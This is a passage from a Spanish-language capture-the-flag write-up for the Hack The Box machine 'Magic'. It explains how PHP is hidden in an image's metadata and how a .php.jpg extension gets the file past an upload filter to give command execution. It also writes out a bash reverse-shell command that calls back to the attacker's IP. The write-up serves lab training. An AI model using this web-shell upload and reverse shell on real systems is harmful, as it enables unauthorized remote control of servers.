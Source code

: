 ![exift23after](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/exift23after.png)

> Va el código php que permitira desde la misma url (GET) pasarle la instrucción a ejecutar en el sistema.

* **__halt_compiler()** hace que el servidor no ejecute los datos de la propia imagen.

##### 3. Cambiar la extensión de la imagen de `.jpg` a `.php.jpg` y subirla

![page23upload](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/page23upload.png)

![page23whoami](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/page23whoami.png)

Perfecto, podemos ejecutar comandos, ahora intentaremos obtener una Shell reversa. 

```bash
http://10.10.10.185/images/uploads/23.php.jpg?cmd=bash -c 'bash -i >& /dev/tcp/10.10.15.69/1233 0>&1'
```

Pero no hace nada, pasando la consulta a URL Encode, quedaría así:
